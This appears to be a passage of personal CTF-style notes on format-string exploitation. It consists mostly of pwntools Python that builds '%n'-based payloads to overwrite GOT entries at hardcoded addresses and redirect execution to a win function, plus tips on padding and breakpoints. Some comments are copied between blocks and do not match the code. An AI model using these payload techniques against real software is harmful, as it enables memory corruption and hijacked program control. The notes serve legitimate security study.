 ```c
	/*
	writing one byte at a time to memory
	you can also concatanate bytes
	*/

}
```
- use %(num)s to pad with spaces
- make sure that the %s is pointing to a readable address, or else it will segfault
```python
#Writes 3 to location
#win funct: 0x400704
#all other got entries have the same first two bytes(0x40)
#only write 07e7
#creates 0x4007e7
exploit_str = flat({
					0: "%2023p%8$hn",
					16: 0x601018
})

#make sure there are no \n chars
assert(b'\n' not in exploit_str)

p.sendline(exploit_str)

p.recvall()
p.wait()
```
- place breakpoint on call to `printf()` (where format string should corrupt) and `puts()` (where win function should be called)

**write 0xdeadbeef into got**
```python
#Writes 3 to location
#win funct: 0x400704
#all other got entries have the same first two bytes(0x40)
#only write07e7
#0xdead - 0xbeef = 8126
exploit_str = flat({
					0: "%48879p%9$hn%8126s%10$hn",
					24: 0x601018, #overwrites two bytes here
					32: 0x601018+2 #ovewrites two bytes here
})
#write 0xbeefdead
exploit_str = flat({
					0: "%48879p%10$hn%8126s%9$hn",
					24: 0x601018, #overwrites two bytes here
					32: 0x601018+2 #ovewrites two bytes here
})



#make sure there are no \n chars
assert(b'\n' not in exploit_str)

p.sendline(exploit_str)

p.recvall()
p.wait()
```
